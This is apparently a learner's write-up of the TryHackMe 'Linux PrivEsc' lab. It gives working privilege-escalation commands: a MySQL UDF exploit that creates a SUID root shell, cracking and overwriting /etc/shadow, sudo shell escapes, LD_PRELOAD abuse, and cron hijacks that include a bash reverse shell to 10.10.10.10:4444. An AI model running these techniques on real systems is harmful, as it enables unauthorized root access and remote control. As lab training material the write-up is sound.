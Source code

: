 ```yaml
---
description: >-
  Today is my Day 1 and I am going to solve machine named Linux PrivEsc on
  TryHackMe lets goo!!!!
---
```


# Day 1 — Linux PrivEsc

{% embed url="https://miro.medium.com/v2/resize:fit:640/format:webp/0*k-2t2eWJ08uuoBjZ.gif" %}

{% hint style="info" %}
**misconfigured** Debian VM with multiple ways to get root! SSH is available. <mark style="color:red;">**Credentials: user:password321**</mark>
{% endhint %}

### Service Exploits

**using nmap** \


<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>open ports</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
cd /home/user/tools/mysql-udf
gcc -g -c  raptor_udf2.c  -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
{% endcode %}

**I found misconfiger in sql login with out password**

{% hint style="info" %}
Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:
{% endhint %}

A user-defined function (UDF) is a [function](https://en.wikipedia.org/wiki/Function\_\(programming\)) provided by the user of a program or environment, in a context where the usual assumption is that functions are built into the program or environment. UDFs are usually written for the requirement of its creator.

```bash
mysql -u root
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

#### What is BLOB in MySQL?

BLOB, which stands for a **Binary Large Object**, is a MySQL data type that can store images, PDF files, multimedia, and other types of binary data.

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>SERVICE EXPLOIT</p></figcaption></figure>

### Weak File Permissions - Readable /etc/shadow

**Read only => r**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
#hash root in file using nano
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What hashing algorithm was used to produce the root user's password hash?**

```
cat hash | hashid
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>SHA-512  Crypt</strong></p></figcaption></figure>

### Weak File Permissions - Writable /etc/shadow

**Write only**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
mkpasswd -m sha-512 newpasswordhere #=> read only
or 
openssl passwd newpasswordhere => #wite only
su root

```
{% endcode %}

Generate a new password hash with a password of your choice:

<mark style="color:green;">**`mkpasswd -m sha-512 newpasswordhere`**</mark>\


<mark style="color:green;">**`openssl passwd newpasswordhere`**</mark>

### Sudo - Shell Escape Sequences

Visit GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)) and search for some of the program names. If the program is listed with “sudo” as a function, you can use it to elevate privileges, usually via an escape sequence.

```bash
#vim
sudo vim -c ':!/bin/bash'

#nano 
sudo nano -s /bin/bash
/bin/bash
^T
#apache2
sudo apache2 -f /etc/shadow #=> crack the hash and gain the root
```

## Task 7 — Sudo — Environment Variables <a href="#a6ec" id="a6ec"></a>

Using LD\_PRELOAD

```basic
 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
 sudo LD_PRELOAD=/tmp/preload.so apache2
```

`ldd /usr/sbin/apache2`

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

### Cron Jobs - File Permissions

```bash
cat /etc/cronta

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

using nc  in kali

```bash
nc -nvlp 4444
```

### Cron Jobs - PATH Environment Variable

**Note that the PATH variable starts with /home/user which is our user's home directory.**

**Create a file called overwrite.sh in your home directory with the following contents:**

```bash
cat /etc/crontab

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

<mark style="color:green;">**`chmod +x /home/user/overwrite.sh`**</mark>

```basic
/tmp/rootbash -p
```
